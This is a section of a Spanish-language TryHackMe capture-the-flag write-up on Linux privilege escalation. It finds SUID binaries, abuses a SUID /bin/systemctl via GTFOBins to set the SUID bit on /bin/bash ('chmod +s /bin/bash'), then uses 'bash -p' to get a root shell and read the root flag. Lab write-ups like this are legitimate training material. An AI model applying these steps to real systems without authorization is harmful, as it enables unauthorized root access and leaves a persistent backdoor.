# [](#header-1)Escalada de privilegios 

Desde TryHackMe nos preguntan por archivos inusuales con permisos SUID. Para buscarlos haremos:

```bash
$ find / -type f -perm -4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
---> /bin/systemctl
/bin/bash
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ 
```

Observamos así el directorio inusual. Sabiendo que ese archivo tiene permisos SUID, buscamos en <a href="https://gtfobins.github.io/gtfobins/systemctl/"> GTFOBins </a> y conseguimos la forma de escalar privilegios. 

Únicamente deberemos introducir el comando chmod +s /bin/bash en el apartado de "id > /tmp/output"

Por otro lado deberemos indicar la ruta absoluta de ./systemctl -> /bin/systemctl

Una vez realizado, comprobamos si tenemos el permiso s con:

```bash
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Lo tenemos, hacemos bash -p para obtener la bash como root y conseguimos la flag de root.

```bash
$ bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
cd /root
ls
root.txt
cat root.txt
???????????????????????
```

Muchas gracias por leer este writeup, espero que te haya gustado!

